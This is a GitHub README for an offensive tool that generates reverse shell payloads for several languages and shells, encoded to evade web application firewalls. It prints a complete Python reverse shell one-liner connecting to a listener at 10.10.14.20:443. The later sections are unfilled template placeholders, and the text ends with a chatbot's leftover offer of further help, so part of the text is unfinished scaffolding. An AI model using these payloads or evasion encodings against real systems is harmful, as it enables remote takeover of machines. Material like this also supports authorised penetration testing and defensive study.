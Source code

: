 ### **What Is It?**
**Omni-Reverse-Payload-Generator** Is a versatile and powerful tool that enables security professionals to quickly generate reverse shell payloads offline using various programming languages and shells. What sets this tool apart is its ability to seamlessly integrate multiple advanced encoding techniques directly within the generated output, allowing payloads to be pre-encoded with layers of obfuscation to effectively bypass security measures like Web Application Firewalls (WAFs). This unique capability ensures payloads are ready for use without the need for additional steps

### **Key Features**
- **Multiple Reverse Payload Generation**: Quickly generate payloads for various environments, including Bash, Netcat, Perl, Python, PowerShell, and MSSQL, ensuring compatibility with different target systems.
- **Environment Testing**: Generate commands to identify and test shell environments, such as PowerShell/CMD (Windows) and Bash/Sh (Unix/Linux), to verify which shell the target supports.
- **Advanced Encoding Options**: Utilize encoding techniques like URL encoding, Base64, and Internal Field Separator (IFS) manipulation to obfuscate payloads and bypass WAFs.
- **Customization and Flexibility**: Customize payloads with options to modify shell behavior, encoding, and injection methods tailored for specific vulnerabilities like SSTI and command injection.

### **Installation**
```bash
git clone https://github.com/loganpkinfosec/omni-reverse-payload-generator/
cd omni-reverse-payload-generator
chmod +x *
```

### **Usage**

```bash
# Basic Usage Format
python3 Omni-Payload-Generator.py <payload_type> <LHOST> <LPORT> [options]

# Example Commands
python3 Omni-Payload-Generator.py -ps 10.10.14.20 443       # Generate PowerShell reverse shell
python3 Omni-Payload-Generator.py -b 10.10.14.20 443 -e     # Generate Bash reverse shell with URL encoding
python3 Omni-Payload-Generator.py -y3 10.10.14.20 443 -ifs injection  # Generate Python 3 reverse shell with IFS manipulation for command injection
python3 Omni-Payload-Generator.py -y 10.10.14.20 443 -ifs ssti -e  # Python reverse shell for SSTI with URL encoding
```

### **Command Options/Swiches**
- `-b, --bash`: Generates a Bash reverse shell command.
- `-n, --netcat`: Generates a Netcat reverse shell command.
- `-p, --perl`: Generates a Perl reverse shell command.
- `-y, --python`: Generates a Python reverse shell command.
- `-y3, --python3`: Generates a Python 3 reverse shell command.
- `-ps, --powershell`: Generates a PowerShell reverse shell command in Base64.
- `-e, --urlencode`: URL encodes the generated reverse shell command.
- `-ifs, --use-ifs`: Uses IFS manipulation (`injection` or `ssti`) to replace spaces, enhancing payload delivery in specific scenarios.


**Example: Generating a Python3 Shell with IFS Manipulation**
```bash
Command: python3 Omni-Payload-Generator.py -y3 10.10.14.20 443 -ifs injection
Output: python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.14.20",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.run(["/bin/bash","-i"]);'
```

### **7. Screenshots or Diagrams**
Include screenshots of the tool in action or diagrams showing the flow of payload generation. Visual aids help users quickly grasp the tool's functionality.

### **8. Common Issues and Troubleshooting**
Add a section that covers common issues users might face and how to resolve them. Examples might include permission errors, encoding issues, or incorrect usage of flags.

### **9. Contribution Guidelines**
Encourage contributions from the community by outlining how others can contribute, report bugs, or suggest features.

### **10. License and Acknowledgments**
Clearly state the licensing of your tool and acknowledge any inspirations or dependencies.

---

**Enhancements Summary:**
- **Structuring**: The documentation is organized into sections, making it easy for users to navigate and find information quickly.
- **Clarity**: Detailed explanations for each command and flag, supplemented by example commands and outputs.
- **Visuals**: Including screenshots or diagrams can further clarify the tool’s usage.
- **Troubleshooting**: Providing a section for common problems will improve user experience and reduce confusion.

Would you like help creating screenshots, diagrams, or further refining any of these sections?
